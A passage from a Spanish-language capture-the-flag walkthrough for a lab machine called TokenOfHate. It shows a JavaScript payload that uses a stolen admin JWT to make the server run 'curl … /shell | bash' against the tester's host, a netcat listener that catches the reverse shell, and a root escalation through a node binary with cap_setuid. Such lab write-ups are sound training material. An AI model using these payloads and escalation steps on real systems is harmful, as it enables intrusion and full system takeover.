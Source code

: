 luego, modificamos el script para que tenga el siguiente contenido (esto para no tener que volver a enviar un nuevo payload para cargar el js):

```js
var x = new XMLHttpRequest();
x.open("POST", "http://127.0.0.1:3000/command");
x.setRequestHeader("Content-Type", "application/json");

x.send(JSON.stringify({
    "command": "curl 192.168.56.1:9090/shell | bash",
    "token": "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6Ikpvc2UiLCJyb2xlIjoiYWRtaW4iLCJpYXQiOjE3NDE1Mzk2MjEsImV4cCI6MTc0MTU0MzIyMX0.Wfg-XIs6DVh8X2qTeqXb7Bs65OQTjBfvu8HrRLmSJUE"
}));
```

escuchamos en el puerto 443 con netcat:

```css
sudo nc -nlvp 443
```

y al recibir la petición también recibiremos una shell.

# Escalada De Privilegios

### Ctesias

Una vez dentro, luego de enumerar un rato, busco capabilities y veo lo siguiente:

```css
getcap -r / 2>/dev/null
```

```css
/usr/bin/yournode cap_setuid=ep
```

al comparar los hashes md5, noto que es realmente el binario `node`:

```css
ctesias@TheHackersLabs-TokenOfHate:/$ md5sum /usr/bin/node
8bededf9cf159842d8a281f2f6c3438a  /usr/bin/node
ctesias@TheHackersLabs-TokenOfHate:/$ md5sum /usr/bin/yournode
8bededf9cf159842d8a281f2f6c3438a  /usr/bin/yournode
ctesias@TheHackersLabs-TokenOfHate:/$ 
```

por lo que simplemente para escalar privilegios debemos ejecutarlo de la siguiente manera:

```css
/usr/bin/yournode -e 'process.setuid(0); require("child_process").spawn("/bin/bash", {stdio: [0, 1, 2]})'
```

Una vez ejecutado seremos **root**.

### Root
